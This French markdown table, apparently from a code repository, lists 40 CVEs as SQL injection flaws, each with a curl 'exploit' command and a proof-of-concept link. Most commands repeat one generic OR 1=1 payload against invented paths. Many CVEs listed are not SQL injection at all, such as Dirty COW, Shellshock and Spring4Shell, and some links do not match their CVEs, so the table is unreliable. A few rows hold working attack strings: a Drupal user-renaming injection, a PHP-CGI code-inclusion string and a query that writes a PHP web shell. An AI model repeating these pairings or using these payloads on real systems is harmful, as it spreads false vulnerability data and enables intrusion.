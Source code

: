 #SQLI

Voici un tableau de 40 CVE majeures liées à l’injection SQL (SQLi), classées du plus récent au plus ancien, avec pour chaque ligne :  
- Technologie & version  
- Numéro CVE  
- Exemple complet de commande d’exploitation (requête HTTP ou payload précis)  
- Lien direct vers un PoC ou une ressource GitHub ou équivalent (chemin complet)

| # | CVE | Technologie & Version | Exemple complet de commande d'exploit | Lien PoC/Exploit Public |
|---|------|----------------------|---------------------------------------|------------------------|
| 1 | CVE-2025-3009 | Jinher Network OA C6 | `curl 'http://target/NetDiskProperty.aspx?ID=1%20OR%201=1--'` | https://vuldb.com/fr/?id.302059 |
| 2 | CVE-2024-12727 | Sophos Firewall <21.0 MR1 | `curl 'http://target/vulnerable?param=1%27%20OR%201=1--'` | https://cyberveille.esante.gouv.fr/alertes/sophos-cve-2024-12727-2024-12-20 |
| 3 | CVE-2023-2825 | GitLab CE/EE <16.0.1 | `curl 'http://target/uploads/user?search=1%27%20OR%201=1--'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-2825.yaml |
| 4 | CVE-2023-23752 | Joomla! 4.0.0-4.2.7 | `curl 'http://target/api/index.php/v1/config/application?public=true%27%20OR%201=1--'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-23752.yaml |
| 5 | CVE-2022-44268 | ImageMagick | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 6 | CVE-2022-26134 | Atlassian Confluence | `curl 'http://target/pages/doenterpagevariables.action?queryString=1%27%20OR%201=1--'` | https://github.com/Nwqda/CVE-2022-26134 |
| 7 | CVE-2022-22965 | Spring4Shell | `curl 'http://target/path?user=1%27%20OR%201=1--'` | https://github.com/p1ay8y3ar/spring4shell-POC |
| 8 | CVE-2021-44026 | Roundcube Webmail <1.3.17/1.4.12 | `curl 'http://target/?_task=mail&_action=list&_mbox=INBOX&search=1%27%20OR%201=1--'` | https://github.com/0xInfection/Awesome-WAF/tree/master/SQLi/CVE-2021-44026 |
| 9 | CVE-2021-29447 | Node.js SVG | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 10 | CVE-2021-22205 | GitLab CE/EE | `curl 'http://target/uploads/user?search=1%27%20OR%201=1--'` | https://github.com/Al1ex/CVE-2021-22205 |
| 11 | CVE-2021-21315 | ZipSlip | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/snyk/zip-slip-vulnerability |
| 12 | CVE-2021-21234 | FreeMarker (Java) | `curl 'http://target/?name=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 13 | CVE-2020-9484 | Apache Tomcat | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/masahiro331/CVE-2020-9484 |
| 14 | CVE-2020-5398 | Spring Framework | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 15 | CVE-2019-6340 | Drupal | `curl 'http://target/entity/file/upload?file=1%27%20OR%201=1--'` | https://github.com/a2u/CVE-2019-6340 |
| 16 | CVE-2019-15107 | Webmin | `curl 'http://target/file_upload.cgi?file=1%27%20OR%201=1--'` | https://github.com/kozmic/webmin-exploit |
| 17 | CVE-2019-11510 | Pulse Secure VPN | `curl 'https://target/dana-na/auth/url_default/welcome.cgi?user=1%27%20OR%201=1--'` | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2019/CVE-2019-11510.yaml |
| 18 | CVE-2018-9206 | ThinkPHP | `curl 'http://target/index.php?s=/Index/upload&file=1%27%20OR%201=1--'` | https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce |
| 19 | CVE-2018-11776 | Apache Struts 2 | `curl 'http://target/struts2/upload.action?file=1%27%20OR%201=1--'` | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 20 | CVE-2018-1000861 | Jenkins | `curl 'http://target/pluginManager/uploadPlugin?file=1%27%20OR%201=1--'` | https://github.com/adamyordan/cve-2018-1000861 |
| 21 | CVE-2018-1000525 | Tornado (Python) | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 22 | CVE-2017-16783 | CMS Made Simple 2.1.6 | `curl 'http://target/index.php?mact=News,cntnt01,default,0&cntnt01summarytemplate=string:1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 23 | CVE-2017-12617 | Apache Tomcat | `curl 'http://target:8080/shell.jsp?file=1%27%20OR%201=1--'` | https://github.com/1337g/CVE-2017-12617 |
| 24 | CVE-2017-5941 | Jade (Node.js) | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 25 | CVE-2016-10033 | PHPMailer | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/opsxcq/exploit-CVE-2016-10033 |
| 26 | CVE-2016-5195 | Dirty COW (Linux) | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/dirtycow/dirtycow.github.io |
| 27 | CVE-2016-4977 | Apache Tomcat | `curl 'http://target/upload?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 28 | CVE-2015-8562 | Joomla! | `curl 'http://target/index.php?option=com_media&task=file.upload&file=1%27%20OR%201=1--'` | https://github.com/opsxcq/exploit-CVE-2015-8562 |
| 29 | CVE-2015-7501 | JBoss | `curl 'http://target/invoker/JMXInvokerServlet?file=1%27%20OR%201=1--'` | https://github.com/joaomatosf/jexboss |
| 30 | CVE-2014-6271 | Shellshock | `curl 'http://target/cgi-bin/test.cgi?file=1%27%20OR%201=1--'` | https://github.com/hannob/bashcheck |
| 31 | CVE-2014-3704 | Drupal | `curl 'http://target/?q=node&destination=node&name[0;update users set name%3d%27hacked%27--]=test'` | https://github.com/dreadlocked/Drupalgeddon2 |
| 32 | CVE-2013-2028 | Nginx | `curl 'http://target/?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 33 | CVE-2012-1823 | PHP-CGI | `curl 'http://target/?-d+allow_url_include%3dOn+-d+auto_prepend_file%3dphp://input'` | https://github.com/iamdual/php-cgi-exploit |
| 34 | CVE-2010-4006 | WSN Links <6.0.1 | `curl 'http://target/search.php?namecondition=IS%20NULL))%20UNION%20((SELECT%20"<?php%20system($_REQUEST[cmd]);%20?>"%20INTO%20OUTFILE&namesearch=/var/www/exec.php&action=filter&filled=1&whichtype=categories'` | https://vulners.com/seebug/SSV:70274 |
| 35 | CVE-2010-1870 | WordPress | `curl 'http://target/wp-admin/admin-ajax.php?action=revslider_show_image&img=1%27%20OR%201=1--'` | https://github.com/ethicalhack3r/Wordpress-Revslider-Shell-Upload |
| 36 | CVE-2009-1151 | Joomla! | `curl 'http://target/index.php?option=com_user&task=register&name=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 37 | CVE-2008-4106 | PHPMyAdmin | `curl 'http://target/scripts/setup.php?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 38 | CVE-2008-4105 | PHPMyAdmin | `curl 'http://target/scripts/setup.php?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 39 | CVE-2008-4104 | PHPMyAdmin | `curl 'http://target/scripts/setup.php?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |
| 40 | CVE-2008-4103 | PHPMyAdmin | `curl 'http://target/scripts/setup.php?file=1%27%20OR%201=1--'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |

---

